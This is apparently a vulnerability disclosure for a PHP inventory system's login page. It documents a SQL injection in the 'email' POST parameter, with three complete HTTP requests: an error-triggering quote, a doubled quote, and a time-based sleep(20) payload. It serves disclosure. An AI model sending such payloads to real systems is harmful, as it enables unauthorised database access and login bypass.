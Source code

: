 Simple Inventory Management System v1.0 by oretnom23 has SQL injection

BUG_Author: li-baige

vendors:https://www.sourcecodester.com/php/15419/simple-inventory-management-system-phpoop-free-source-code.html

Vulnerability File: /ims/login.php

Parameter "email" (POST), exists SQL injection vulnerability

Payload1: email=a'&pwd=b&login=

```
POST /ims/login.php HTTP/1.1
Host: localhost
Origin: http://localhost
Cookie: PHPSESSID=3gtl0ab587o41bs2nnm02st0ve
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Upgrade-Insecure-Requests: 1
Referer: http://localhost/ims/login.php
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en-GB;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Length: 21

email=a'&pwd=b&login=
```

In response to an error

![image](https://github.com/li-baige/bugPic/blob/main/responseerror.png)

Payload2: email=a''&pwd=b&login=

```
POST /ims/login.php HTTP/1.1
Host: localhost
Origin: http://localhost
Cookie: PHPSESSID=3gtl0ab587o41bs2nnm02st0ve
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Upgrade-Insecure-Requests: 1
Referer: http://localhost/ims/login.php
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en-GB;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Length: 22

email=a''&pwd=b&login=
```

In response to the right

![image](https://github.com/li-baige/bugPic/blob/main/responseright.png)

Payload3: email=a'%2b(select*from(select(sleep(20)))a)%2b'&pwd=b&login=

```
POST /ims/login.php HTTP/1.1
Host: localhost
Origin: http://localhost
Cookie: PHPSESSID=3gtl0ab587o41bs2nnm02st0ve
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Upgrade-Insecure-Requests: 1
Referer: http://localhost/ims/login.php
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en-GB;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Length: 61

email=a'%2b(select*from(select(sleep(20)))a)%2b'&pwd=b&login=
```

Response time is 20 seconds

![image](https://github.com/li-baige/bugPic/blob/main/responsesleep.png)
